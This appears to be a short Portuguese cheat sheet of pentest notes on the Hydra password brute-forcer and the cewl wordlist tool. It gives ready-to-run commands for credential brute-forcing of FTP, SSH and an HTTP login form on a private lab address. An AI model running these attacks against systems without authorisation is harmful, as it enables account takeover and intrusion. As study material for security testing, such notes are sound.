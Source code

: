 
# Hydra
bruteforce de serviços, ssh,ftp

ex ftp:
```
hydra -L users.txt -P pass.txt 192.168.0.8 ftp -s 21 
```

ex ssh:
```
hydra -L users.txt -P pass.txt 192.168.0.8 ssh -t 4 -s 22
```
Obs: no ssh é preciso limitar a quantidade de requisições paralelas usando `-t 4`

```
hydra -v -l <user> -p <pass> -M <targets> <protocol> 
hydra -v -L <user_list> -P <pass_list> <protocol>://<ip>:<port> 
```

bruteforce em http
```
hydra -v -L users.txt -P pass.txt URL http-post-form "/turismo/login.php:LOGIN_BUTTON_NAME=^USER^&PASS_BUTTON_NAME=^PASS^&SUBMIT_BUTTON_NAME:STRING_FILTER"


hydra -v -L users.txt -P pass.txt URL http-post-form "/turismo/login.php:login=^USER^&senha=^PASS^&Login:Incorreto"

```

**Flags úteis:**
-s PORT: porta do serviço
-L: path para lista de usuários
-P: path para lista de senhas
-C: path para arquivo no formato "login:pass"
-l: usuário em texto
-p: senha em texto
-s PORT
-W TIME
        defines a wait time between each connection a task performs. This usually only makes sense if a low task number is used, .e.g -t 1

## hydra.restore
when you cancel a hydra bruteforce, the program save a `./hydra.restore` file, to restore the bruteforce of previous try:
```
hydra -R
```
# cewl
pesquisar por uma string em um site
```
cewl URL -m LENGTH
```
-m, --min_word_length
                     Minimum word length, default 3.
